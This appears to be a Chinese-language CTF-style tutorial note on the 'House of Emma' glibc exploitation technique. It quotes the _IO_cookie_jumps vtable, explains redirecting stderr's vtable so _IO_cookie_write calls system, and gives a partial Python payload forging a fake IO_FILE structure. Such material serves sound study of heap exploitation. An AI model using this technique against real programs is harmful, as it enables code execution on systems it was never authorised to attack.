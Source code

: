 # House of emma

## 0x00 条件

1.可以任意写一个可控地址（LargeBin Attack、Tcache Stashing Unlink Attack…）

2.可以触发 IO 流（FSOP、[House OF Kiwi](https://www.anquanke.com/post/id/235598)）

## 0x01 原理

在 vtable 的合法范围内，存在一个 _IO_cookie_jumps：

```c++
static const struct _IO_jump_t _IO_cookie_jumps libio_vtable = {
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_file_finish),
  JUMP_INIT(overflow, _IO_file_overflow),
  JUMP_INIT(underflow, _IO_file_underflow),
  JUMP_INIT(uflow, _IO_default_uflow),
  JUMP_INIT(pbackfail, _IO_default_pbackfail),
  JUMP_INIT(xsputn, _IO_file_xsputn),
  JUMP_INIT(xsgetn, _IO_default_xsgetn),
  JUMP_INIT(seekoff, _IO_cookie_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_file_setbuf),
  JUMP_INIT(sync, _IO_file_sync),
  JUMP_INIT(doallocate, _IO_file_doallocate),
  JUMP_INIT(read, _IO_cookie_read),
  JUMP_INIT(write, _IO_cookie_write),
  JUMP_INIT(seek, _IO_cookie_seek),
  JUMP_INIT(close, _IO_cookie_close),
  JUMP_INIT(stat, _IO_default_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue),
};
```

在一个iofile结构体中，对 vtable 的检测中对虚表具体位置的检测还是比较宽松的，这使得我们可以在一定的范围内对 vtable 表的起始位置进行偏移，使其我们在调用具体偏移是固定的情况下，可以通过偏移来调用在 vtable 表中的任意函数，因此我们考虑可以将其指定为`_IO_cookie_read;_IO_cookie_write;_IO_cookie_seek;_IO_cookie_close   `

例如，由于最后的触发需要依靠[House OF Kiwi](https://www.anquanke.com/post/id/235598)，所以我们修改stderr的iofile结构体中的`_IO_file_jumps`为

`io_cookie_jumps+0x40`，这样最终就会调用`_IO_cookie_write`

同时`_IO_cookie_write`函数的参数就是这个iofile结构体，对应寄存器的值我们都可以控制

所以我们可以把其当做一个类似于 __free_hook 的 Hook 来利用。

具体伪造的stderr结构体一般可以是：

```python
target = libc_base+libc.sym['system']
io_cookie_jumps = 0x1e1a20+libc_base 
next_chain = 0

fake_IO_FILE = p64(0x00000000fbad2087)+3 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE += p64(0)*4
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE += p64(0)*3
```